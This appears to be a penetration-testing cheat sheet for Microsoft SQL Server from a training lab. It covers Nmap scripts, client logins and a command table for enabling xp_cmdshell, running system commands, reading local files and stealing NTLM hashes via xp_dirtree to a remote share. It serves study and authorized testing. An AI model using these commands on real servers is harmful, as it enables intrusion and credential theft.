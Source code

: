 - [ ] MSSQL Nmap
```bash
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $IP
```
- [ ] Connecting with Mssqlclient.py (Impacket)
  ```bash
  python3 mssqlclient.py Administrator@$IP
  python3 mssqlclient.py Administrator@$IP -windows-auth
  ```
- [ ] Connecting with sqsh
  ```bash
  sqsh -S <IP> -U <Username> -P <Password> -D <Database>
  sqsh -S <IP> -U .\\<Username> -P <Password> -D <Database> #Windows
  ```
- [ ] Metasploit
  ```text
  use scanner/mssql/mssql_ping
  ```
- [ ] [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

## Attacking MSSQL Databases

|**Command**|**Description**|
|-|-|
| `sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30` | Connecting to the MSSQL server.  |
| `sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h` | Connecting to the MSSQL server from Linux.  |
| `sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h` | Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server. |
| `sqlcmd> SELECT name FROM master.dbo.sysdatabases` | Show all available databases in MSSQL. |
| `sqlcmd> USE htbusers` | Select a specific database in MSSQL. |
| `sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES` | Show all available tables in the selected database in MSSQL. |
| `sqlcmd> SELECT * FROM users` | Select all available entries from the "users" table in MSSQL. |
| `sqlcmd> EXECUTE sp_configure 'show advanced options', 1` | To allow advanced options to be changed. |
| `sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1` | To enable the xp_cmdshell. |
| `sqlcmd> RECONFIGURE` | To be used after each sp_configure command to apply the changes. |
| `sqlcmd> xp_cmdshell 'whoami'` | Execute a system command from MSSQL server. |
| `sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents` | Read local files in MSSQL. |
| `sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'` | Hash stealing using the `xp_dirtree` command in MSSQL. |
| `sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'` | Hash stealing using the `xp_subdirs` command in MSSQL. |
| `sqlcmd> SELECT srvname, isremote FROM sysservers` | Identify linked servers in MSSQL.  |
| `sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]` | Identify the user and its privileges used for the remote connection in MSSQL.  |
